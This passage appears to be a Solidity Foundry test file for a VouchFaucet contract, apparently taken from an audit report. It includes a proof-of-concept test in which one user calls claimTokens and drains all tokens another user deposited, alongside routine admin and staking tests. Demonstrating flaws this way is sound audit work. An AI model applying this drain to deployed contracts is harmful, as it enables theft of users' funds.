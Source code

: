 ```solidity
        vouchFaucet.setMaxClaimable(token, amount);
        assertEq(vouchFaucet.maxClaimable(token), amount);
    }

    function testMaliciousUserCanClaimAllTheTokensInTheContract() public {
        setUp();

        //ALICE transfers tokens to the contract
        vm.startPrank(ALICE);
        erc20Mock.transfer(address(vouchFaucet), 10 ether);

        uint256 contractBalance = erc20Mock.balanceOf(address(vouchFaucet));
        assertEq(contractBalance, 10 ether);

        vm.stopPrank();

        vm.startPrank(BOB);

        uint256 bobBalanceBefore = erc20Mock.balanceOf(BOB);
        assertEq(bobBalanceBefore, 0);

        //BOB calls claimTokens() and gets all the tokens in the contract
        vouchFaucet.claimTokens(address(erc20Mock), 10 ether);

        uint256 bobBalanceAfter = erc20Mock.balanceOf(BOB);
        assertEq(bobBalanceAfter, 10 ether);
    }

    function testCannotSetMaxClaimableNonAdmin(address token, uint256 amount) public {
        vm.prank(address(1234));
        vm.expectRevert("Ownable: caller is not the owner");
        vouchFaucet.setMaxClaimable(token, amount);
    }

    function testClaimVouch() public {
        vouchFaucet.claimVouch();
        uint256 trust = userManagerMock.trust(address(vouchFaucet), address(this));
        assertEq(trust, vouchFaucet.TRUST_AMOUNT());
    }

    function testStake() public {
        erc20Mock.mint(address(vouchFaucet), 1 * UNIT);
        assertEq(userManagerMock.balances(address(vouchFaucet)), 0);
        vouchFaucet.stake();
        assertEq(userManagerMock.balances(address(vouchFaucet)), 1 * UNIT);
    }

    function testExit() public {
        erc20Mock.mint(address(vouchFaucet), 1 * UNIT);
        assertEq(userManagerMock.balances(address(vouchFaucet)), 0);
        vouchFaucet.stake();
        assertEq(userManagerMock.balances(address(vouchFaucet)), 1 * UNIT);
        vouchFaucet.exit();
        assertEq(userManagerMock.balances(address(vouchFaucet)), 0);
    }

    function testTransferERC20(address to, uint256 amount) public {
        vm.assume(
            to != address(0) && to != address(this) && to != address(vouchFaucet) && address(vouchFaucet) != address(0)
        );

        erc20Mock.mint(address(vouchFaucet), amount);
```